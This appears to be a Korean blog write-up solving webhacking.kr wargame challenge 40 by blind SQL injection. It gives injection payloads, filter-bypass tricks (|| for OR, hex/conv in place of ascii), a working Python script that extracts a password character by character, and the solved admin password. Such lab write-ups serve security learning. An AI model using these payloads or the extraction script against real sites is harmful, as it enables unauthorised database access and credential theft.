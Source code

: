 ```yaml
---
title: "[webhacking.kr] 40번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "40번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 40번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152694607-688cddb7-17ac-4809-a930-00c50242ad4b.png)


# 문제 풀이
  기본 값을 그대로 로그인을 시도하면 guest로 로그인이 성공합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694685-cac35a83-f192-4678-b4c5-e8a03b68c74e.png)


  id,no,pw 를 다른 값으로 바꿔서 시도하면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694709-e1c49ab4-9c4d-41e5-bc43-f5aaa46f0e27.png)

  이제 입력이 가능한 no,id,pw에 injection을 시도해 봅니다.



  id,pw 에는 
  ```sql
' or 1=1-- 
  ```
  을 시도해 보았지만 취약점이 발견되지 않았습니다.

  no에는 다음을 입력해 보았더니 access denied, 즉 필터링 되었습니다.

  ```sql
3 or 1=1-- 
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152694769-1e21978a-004a-4bc2-85e0-f9e93b565356.png)



  입력 값을 몇개 시도해 보니, no를 통해서 인젝션이 되었습니다. 'or' 이 필터링 되어서 '\|\|'로 대체하였고, 띄어쓰기(%20)가 필터링 되어서 붙여서 썼습니다. 


  ```sql
3||no=2
  ``` 

  ![image](https://user-images.githubusercontent.com/33647663/152694905-9a5bcf12-ec20-4b81-8179-00166af451ca.png)

  위의 값을 입력해 주면 다음 페이지로 이동되는데, admin password를 구해야 합니다.

  이 이후부터는 전형적인 blind sql injection으로 파이썬 코드로 대체하겠습니다.

  기존 문제와 다른 점은 select문이 필터링 되어 있어서 information_schema를 이용하는것은 불가능 했습니다.

  또한 ord,ascii가 필터링 되어 있었기 때문에 hex 함수를 이용해서 우회를 했습니다.

  ```sql
  hex('a') = 61 # 주어진 문자를 ascii 16진수로 반환
  conv(61,16,10) = 97 # 맨 첫 인자를 16진수에서 10진수로 변환
  ```

  위의 함수들을 이용해서 ascii와 동일한 기능을 구현할 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695103-825180a6-f26c-4bcc-802c-332bc03339ba.png)



  ```python
import requests
from tqdm import tqdm
url = "https://webhacking.kr/challenge/web-29/"

TRUE_FLAG = "Success"
FALSE_FLAG = "Failure"


# 1. pw 길이
for i in range(20):
    params = "?id=guest&pw=guest&no=3||(length(pw)={})".format(i)
    response = requests.get(url + params)
    if(FALSE_FLAG not in response.text):
        print("password length: ", i)


# admin 계정의 pw 길이는 10

# 2. pw
for i in range(1,11):
    password = ''
    for j in range(127,20,-1):
        params = "?id=guest&pw=guest&no=3||(conv(hex(substr(pw,{0},1)),16,10)={1})".format(i,j)
        response = requests.get(url+params)
        if(FALSE_FLAG not in response.text):
            password += chr(j)
            if(i>5):
                break
    print(i," : ",password)
  ```

# 결과
  코드를 실행하면 다음과 같이 출력합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695172-7aaa9344-4507-4842-a3e6-498992450665.png)

  DB에는 guest와 admin 2가지 계정의 비밀번호가 있기 때문에 5번째 자리까지는 2번 출력되는 것을 볼 수 있습니다. 이때 1-5까지는 'guest'를 제외하고 보면 admin의 비밀번호는

  luck_admin 인 것을 알 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695240-90635e28-b6db-468c-b4e6-2781b2a8a339.png)


